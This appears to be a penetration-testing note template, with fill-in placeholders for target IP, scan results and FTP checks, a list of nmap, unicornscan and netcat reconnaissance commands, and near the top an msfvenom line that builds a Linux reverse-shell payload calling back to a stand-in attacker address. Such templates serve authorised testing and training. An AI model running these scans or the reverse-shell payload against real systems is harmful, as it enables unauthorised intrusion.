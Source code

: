 ### Info-sheet
msfvenom -p linux/x86/shell_reverse_tcp LHOST=MYIPADDRESS LPORT=4444 -f elf -o shell.elf

- DNS-Domain name:
- Host name:
- OS:
- Server:
- Kernel:
- Workgroup:
- Windows domain:
- Services and ports:

INSERTTCPSCAN

### Vuln Scan

INSERTVULNSCAN

```
Always start with a stealthy scan to avoid closing ports.

# Syn-scan
nmap -sS INSERTIPADDRESS

# Scan all ports, might take a while.
nmap INSERTIPADDRESS -p-

# Service-version, default scripts, OS:
nmap INSERTIPADDRESS -sV -sC -O -p 111,222,333

# Scan for UDP
nmap INSERTIPADDRESS -sU
unicornscan -mU -v -I INSERTIPADDRESS

# Connect to udp if one is open
nc -u INSERTIPADDRESS 48772

# Monster scan
nmap INSERTIPADDRESS -p- -A -T4 -sC

# Vulnerability Scan
nmap --script=vuln INSERTIPADDRESS
```

INSERTVULNSCAN

### Port 21 - FTP

- FTP-Name:
- FTP-version:
- Anonymous login:

INSERTFTPTEST
